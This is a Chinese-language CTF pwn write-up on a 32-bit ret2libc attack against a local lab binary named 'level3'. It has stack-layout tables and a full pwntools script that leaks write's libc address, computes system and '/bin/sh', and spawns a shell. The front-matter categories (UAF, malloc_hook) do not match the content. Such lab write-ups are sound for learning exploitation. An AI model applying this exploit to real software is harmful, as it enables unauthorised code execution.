 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20231229210336379](../assets/img/old_imgs/image-20231229210336379.png)

- 函数参数劫持

- `32`位泄露`libc`

  `32`位程序的传参是栈的后四位开始,要注意的是,`32`位下`write,put`的`ret`位置是紧跟函数后面的

  `payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)`

  > 这段代码中的p32(elf.sym['main'])就是ret,同时满足填充栈,传入参数

| rbp  |           |       |            |
| ---- | --------- | ----- | ---------- |
|      | padding   |       | 0x88       |
|      |           | leave | 0x4        |
|      | write_plt | ret   |            |
|      | main_addr | ret_l | 返回的地址 |
|      | 0x1       |       | arg1       |
|      | wirte_got |       | arg2       |
|      | 0x4       |       | arg3       |

> payload1

| rbp  |             |       |      |
| ---- | ----------- | ----- | ---- |
|      | padding     |       | 0x88 |
|      |             | leave | 0x4  |
|      | system_addr | ret   |      |
|      | 0xdeadbeef  |       |      |
|      | bin_sh_addr |       | aeg1 |

> payload2

```python
from pwn import *
#context.log_level = 'debug'
io = process('./level3')
#io = gdb.debug('./level3','break main')
elf = ELF('./level3')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)
io.sendline(payload1)
io.recvuntil('Input:\n')
write_addr = u32(io.recv(4))
print('write_addr->',hex(write_addr))
baseoffset = write_addr - Lib.sym['write']
sys_addr = baseoffset + Lib.sym['system']
bin_sh_addr = baseoffset + next(Lib.search(b'/bin/sh'))
payload2 = b'A'*(0x88+0x4)+p32(sys_addr)+p32(0xdeadbeef)+p32(bin_sh_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```